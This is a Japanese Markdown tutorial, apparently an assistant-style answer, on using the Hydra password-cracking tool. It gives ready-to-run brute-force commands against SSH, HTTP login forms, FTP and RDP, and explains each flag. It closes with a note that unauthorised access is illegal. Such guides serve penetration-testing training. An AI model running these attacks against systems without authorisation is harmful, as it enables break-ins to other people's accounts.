 Hydraの使い方について、具体的な例とともにMarkdown形式でまとめました。

markdown

## Hydraの使い方

Hydraは、ログイン認証をクラックするためのパスワードクラッキングツールです。特にHTTP、FTP、SSHなど多くのプロトコルに対応しています。

### 1. 基本的な構文

```bash
hydra [オプション] [ターゲットIP] [プロトコル]
2. SSHに対するブルートフォース攻撃の例
特定のユーザー名とパスワードリストを使ってSSHサーバーに対してブルートフォース攻撃を行う例です。
```
bash

hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100
-l username: 攻撃対象のユーザー名を指定します。
-P /path/to/passwordlist.txt: 使用するパスワードリストのパスを指定します。
ssh://192.168.1.100: 攻撃対象のSSHサーバーのIPアドレスを指定します。
3. HTTPフォームへのブルートフォース攻撃の例
特定のウェブサイトのログインフォームに対してブルートフォース攻撃を行う例です。

```bash

hydra -l admin -P /path/to/passwordlist.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"
```
http-post-form:HTTP POSTリクエストでフォームを送信します。
/login.php: ログインフォームのあるページのパスを指定します。
username=^USER^&password=^PASS^: フォームの入力フィールド名を指定し、^USER^と^PASS^でそれぞれユーザー名とパスワードが置き換えられます。
F=incorrect: ログイン失敗時に表示される文字列を指定します。


4. FTPへのブルートフォース攻撃の例
FTPサーバーに対してブルートフォース攻撃を行う例です。

```bash
hydra -l anonymous -p ftp_password 192.168.1.100 ftp
```
-p ftp_password: 使用する単一のパスワードを指定します。
5. RDPへのブルートフォース攻撃の例
WindowsのRDP（リモートデスクトップ）サービスに対してブルートフォース攻撃を行う例です。

bash

hydra -t 1 -V -f -l administrator -P /path/to/passwordlist.txt rdp://192.168.1.100
-t 1: 1つのスレッドで攻撃を行う（リモートデスクトップのブルートフォース攻撃では推奨される設定）。
-V: 攻撃の進行状況を表示します。
-f: パスワードが見つかったら停止します。
6. Hydraの結果を出力ファイルに保存する
攻撃結果をファイルに保存するには、-oオプションを使用します。

bash

hydra -l username -P /path/to/passwordlist.txt ssh://192.168.1.100 -o results.txt
-o results.txt: 結果をresults.txtに保存します。
まとめ
Hydraは強力なパスワードクラックツールであり、様々なプロトコルに対応していますが、不正アクセスは法律で禁止されています。許可を得た環境でのみ使用し、倫理的に使用することが重要です。
